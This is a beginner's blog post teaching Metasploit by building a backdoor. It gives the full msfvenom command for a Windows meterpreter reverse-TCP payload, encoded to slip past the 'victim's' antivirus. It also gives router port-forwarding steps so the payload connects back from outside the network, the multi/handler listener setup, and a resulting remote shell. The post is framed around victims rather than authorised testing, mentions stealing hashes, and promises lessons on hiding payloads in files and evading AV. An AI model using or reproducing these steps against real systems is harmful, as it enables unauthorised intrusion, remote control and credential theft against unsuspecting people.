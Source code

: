 ```yaml
---
title: Beginner's Guide to Metasploit
date: 2016-03-27 12:00:00 Z
layout: post
comments: true
subtitle: Linux, not Windows
author: ex0dus
header-img: img/PostBG/post-bg-06.png
---
```


Due to popular request, I'm going to teach Metasploit.

**Metasploit** is a pen testing framework suite written in the Ruby programming language. People use Metasploit to commonly gain access to a computer, through exploits, which find flaws, whether in the system or software the victim has and allows you to gain access.

It is pretty complicated, so I will be covering some of the essentials in a simple tutorial. We will set up a basic so-called "virus". Technically it’s a payload that acts as a backdoor, so that once the user executes it, you get ahold of their computer.

This tutorial will mostly base around the premise that your target is outside your network, so there is going to be a little configuration.

## Installing

If you are on Kali Linux, which is recommended, metasploit is automatically installed, as I have said before. Simply type **"msfconsole"** to get started. I recommend using the Linux version. The Windows version is pretty limited and is kind of shit. If you are on Ubuntu like me, and want to install it, good luck. This was probably one of the hardest things I've ever done. You might as well use Kali on VM if you can't install it. But if you are hardcore, click [**Here**](http://www.darkoperator.com/installing-metasploit-in-ubunt/)

## Getting Started

1\. Type "ifconfig" in your terminal. Obtain your inet address, most likely in wlan0 or eth0 (it should be 192.168.x.x for most). This is your computers given address on your network. ![](http://i.imgur.com/Ef7BPHX.png)

2\. Open your router settings. This is achieved by typing 192.168.1.1 in your browser (search it up if it isn't it. Every router brand is different. I use a Verizon router). ![](http://i.imgur.com/3ol73Gt.png)
3\. Find out where port forwarding is. There may be a tab called “Firewall” you might have to click. Again, all router brands are different in terms of settings and configuration, so you might have to go on the Internet and search it up. For my Verizon router, there is a tab called “Firewall”. After clicking on it, I get routed to another page, where this a tab on the side called “Port Forwarding”. ![](http://i.imgur.com/KV6h0aT.png) 4\. Enter the IP address you had previously, the one for your computer. Port forward port “4444”. What will happen is, when you receive a request for a connection to your public IP address through port 4444, it will be rerouted to your local IP. It’s kind of like a map. Port forwarding is me building a shortcut. 5\. In your terminal, we will make our payload. Type:

    msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00′ LHOST=[your PUBLIC IP] LPORT=4444 -f exe > payload.exe

Let’s break this down. **MSFvenom** is the payload creation script (it was originally msfpayload). **–P** is the parameter to pass that signifies what kind of payload we are creating. In this case, we are creating a **windows/meterpreter/reverse_tcp** one. This kind of payload will create a shell called Meterpreter, which is like the Command Line, but for hackers. I’ll get to it later. **–E x86/shikata_ga_nai** is the parameter for encoding the payload using shikata_ga_nai, where we mask it so that the victim’s anti-virus won’t detect the payload, since it is technically, a virus. Encoding a payload using MSFvenom isn’t really effective anymore, but it is for the sake of demonstration. Don’t worry, there are ways to mask payloads and bypass AV. I will talk about it later. **–I 5** means we encode it 5 times. **–B ‘x/00’** has something to do with shellcode, and we won’t really get into it. Now however the next part, LHOST and LPORT is important. You will enter your public IP address in LHOST. Public, not the 192.168.x.x one. Your LPORT will be 4444\. This means that once the victim opens the payload, a connection will be sent to your public IP, and it will forwarded to your local IP (the 192.168.x.x one), where a listener will be set up (we will do this in the next 2 steps). 6\. After you press enter, the payload will generate. Open another terminal and type “msfconsole”. You will see an interpreter-style-thingy like this: ![](http://i.imgur.com/uOFGncN.png) 7\. After your payload is generated, it should be in your /root/ directory. Leave it where it is for now. In your terminal with Metasploit open, type

    msf > use exploit/multi/handler

8\. This is the handler that will be set up to handle the incoming request from the victim's computer. Now type in:

    msf exploit(handler) > set LHOST=[your LOCAL IP here]

9\. We will establish a listener that will listen for the request. It will be hosted on your computer, hence the LOCAL IP.

<pre>**msf exploit(handler) >**set LPORT=4444</pre>

10\. This establishes the port. Now type:

<pre>**msf exploit(handler) >**show options</pre>

11\. Everything should be set and in place. Now type run:

    msf exploit(handler) >run
    12\. You will see something like:
    [*]Started reverse handler on 192.168.x.x:4444
    [*]Starting the payload handler…

13\. You have set up your handler and listener! Now in order to get a Meterpreter shell, a victim needs to open your payload. Doing so, a connection will be sent back, and your listener will intercept the connection and the handler will start a meterpreter session, which looks like:

<pre>**meterpreter>**</pre>

14\. Congrats! You learnt the basics of Metasploit. Now you may ask, what to do with meterpreter? Well, here’s an example:

    meterpreter> shell
    Process 2314 created
    Channel 1 created
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation. All rights reserved.
    C:\Windows\System32>

This establishes a Windows Command Prompt shell and now you have access over the victim's computer! You can do much more with Meterpreter. You can take a screeshot of the victim's computer, see system processes, steal hash, etc. Here’s a list: [**Null Byte**](http://null-byte.wonderhowto.com/how-to/hack-like-pro-ultimate-command-cheat-sheet-for-metasploits-meterpreter-0149146/)

Well that is all. This article was probably a little dull, but I will soon elaborate on this tutorial. I will talk about exploitation through obfuscating payloads in PDF files, text documents, videos, etc. I will also talk about bypassing AV (anti-virus), since many modern day AVs detect these Metasploit payloads as viruses and backdoors.

## I have set up a Contact Form in the **Contact** section of this site! Please do not hesistate to use it if you have any inquiries
